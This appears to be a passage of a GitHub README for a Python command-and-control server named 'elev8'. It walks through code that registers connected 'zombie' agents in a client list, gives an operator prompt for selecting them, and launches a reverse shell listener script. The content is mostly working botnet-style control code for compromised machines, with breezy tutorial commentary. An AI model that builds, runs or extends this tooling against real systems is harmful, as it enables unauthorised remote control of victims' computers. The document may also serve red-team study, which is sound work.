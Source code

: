 ```python
        #it can't get any easier than that right?!
        ##########################################

        UserInfo=clientinfo[0]
        #print(clientinfo)
        clientlist.append([counter, conn, UserInfo])
        clientdata.append(clientinfo)
        
        handler_thread = threading.Thread(target=probe)
        handler_thread.daemon = True
        handler_thread.start()
```

***Select your Zombie! 🧟***
-

> In this section, we will setup our basic command prompt to help us navigate our zombie agents

```python
def server_selection():
    global clientlist
    commands="True"
    
    while not "exit" in commands:
        
        command=input(Fore.CYAN + "<< elev8 >> $ " + Fore.WHITE)
        if command=="":
            pass
        if command=="zombies": #interact with a zombie/agent!
            zombies()
        if command == "cls" or command == "clear": #clear the console if it gets cluttered, works on windows / linux
            if os.name == 'nt':
                os.system("cls")
            else:
                os.system("clear")
        if command == "?" or command == "help": #just tells you stuff you prob already know
            print(Fore.YELLOW + "commands:\n$ zombies\n$ clear/cls (clears screen)\n$ control + C kills server\n" + Fore.WHITE)
```

***Code for the reverse shell listener function***
-

> Code we need to have in place when we want to get a reverse shell using our zombie agent 🧟‍♂️

```python
def startrevshellsvr():
    if os.name == 'nt': #we usin' windows, well...then do this
        subprocess.call(["py", "pyrevshell_server.py"])
        exit_event.set()
    else: #else, we're flyin high like a penguin and usin' linux!  so, act accordingly
        subprocess.call(["python3", "pyrevshell_server.py"])
        exit_event.set()
```
